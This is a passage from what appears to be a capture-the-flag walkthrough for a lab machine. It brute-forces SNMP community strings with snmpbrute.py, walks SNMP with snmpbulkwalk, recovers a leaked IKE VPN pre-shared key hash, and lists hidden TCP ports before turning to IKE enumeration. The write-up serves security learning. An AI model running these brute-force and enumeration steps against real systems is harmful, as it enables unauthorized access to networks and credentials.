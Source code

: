 In order to access to that information we need a community string which is a kind of password.

There is a [github](https://github.com/SECFORCE/SNMP-Brute/blob/master/snmpbrute.py) python script calles **snmpbrute.py** with helps to bruteforce **community strings**.

```bash
python3 snmpbrute.py -t 10.10.10.116 -p 161
```

```bash
10.10.10.116 : 161 	Version (v1):	public
10.10.10.116 : 161 	Version (v2c):	public
```

There are a lot of similar tools as **snmpbrute** but **snmpbrute** gives us v2c **community strings** which normally contain more info.

## Exploiting UDP

Well now we have a valid **community string**, in order to access to the hidden info I am gonna use **snmpbulkwalk**.

```bash
snmpbulkwalk -c public -v 2c $IP > snmpenum
```

I saved the scan output in a file because normally is so long.

If we check the first lines theres is a **PSK** password for **IKE VPN**

```bash
SNMPv2-MIB::sysContact.0 = STRING: IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43
```

Also we can found some hidden **TCP** ports.

```bash
TCP-MIB::tcpConnectionState.unknown."".21.unknown."".0 = INTEGER: listen(2)
TCP-MIB::tcpConnectionState.unknown."".80.unknown."".0 = INTEGER: listen(2)
TCP-MIB::tcpConnectionState.unknown."".445.unknown."".0 = INTEGER: listen(2)
TCP-MIB::tcpConnectionState.ipv4."0.0.0.0".135.ipv4."0.0.0.0".0 = INTEGER: listen(2)
TCP-MIB::tcpConnectionState.ipv4."0.0.0.0".49664.ipv4."0.0.0.0".0 = INTEGER: listen(2)
TCP-MIB::tcpConnectionState.ipv4."0.0.0.0".49665.ipv4."0.0.0.0".0 = INTEGER: listen(2)
TCP-MIB::tcpConnectionState.ipv4."0.0.0.0".49666.ipv4."0.0.0.0".0 = INTEGER: listen(2)
TCP-MIB::tcpConnectionState.ipv4."0.0.0.0".49667.ipv4."0.0.0.0".0 = INTEGER: listen(2)
TCP-MIB::tcpConnectionState.ipv4."0.0.0.0".49668.ipv4."0.0.0.0".0 = INTEGER: listen(2)
TCP-MIB::tcpConnectionState.ipv4."0.0.0.0".49669.ipv4."0.0.0.0".0 = INTEGER: listen(2)
TCP-MIB::tcpConnectionState.ipv4."0.0.0.0".49670.ipv4."0.0.0.0".0 = INTEGER: listen(2)
TCP-MIB::tcpConnectionState.ipv4."10.10.10.116".139.ipv4."0.0.0.0".0 = INTEGER: listen(2)
```

If we return to the **nmap** scan there is other open port with a **IKE VPN**.

First let’s talk about with what we are dealing now. **IPsec** is the most commonly used technology for **LAN to LAN** and **enterprise VPN.**

**IKE is a type of ISAKMP** (Internet Security Association Key Management Protocol) implementation.

Thanks to a [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/ipsec-ike-vpn-pentesting) post I found a command which helps us to know if there is a **IKE VPN** listening.
